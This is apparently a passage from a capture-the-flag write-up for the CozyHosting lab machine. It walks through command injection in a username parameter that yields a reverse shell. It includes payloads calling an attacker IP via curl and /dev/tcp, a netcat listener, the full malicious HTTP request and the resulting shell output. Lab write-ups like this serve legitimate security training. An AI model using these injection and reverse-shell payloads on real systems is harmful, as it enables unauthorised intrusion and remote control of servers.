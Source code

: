 Possibly vulnerable to command injection? lets try some payloads.

`host=localhost&username=$(curl 10.10.14.30:8000)` results in: `Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!`. [Hacktricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) seems to have quite a bit of good content on this. lets try the short rev shell trick.

Start the listener:

```bash
$ nc -lvnp 9001
```

`host=localhost&username=(sh)0>/dev/tcp/10.10.13.30/9001` Seems to cause an error: `Location: http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: syntax error near unexpected token (\'/bin/bash: -c: line 1: ssh -o ConnectTimeout=1 (sh)0>/dev/tcp/10.10.13.30/9001@localhost'`. Since the parameter seems to go directly into the username it throws an error. lets make bash use the return of the shell payload as the username with `$()`, `host=localhost&username=$((sh)0>/dev/tcp/10.10.13.30/9001)`

Sending:

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin?error=Invalid%20hostname!
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://cozyhosting.htb
DNT: 1
Connection: close
Cookie: JSESSIONID=08D7A2D967BFBD7D02FE7187AD273C6E
Upgrade-Insecure-Requests: 1

host=localhost&username=$((sh)0>/dev/tcp/10.10.13.30/9001)

```

Gives us a shell! lets run `exec >&0` as stated in the instruction on hacktricks.

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.230] 41668
exec >&0
ls
cloudhosting-0.0.1.jar
pwd
/app

```
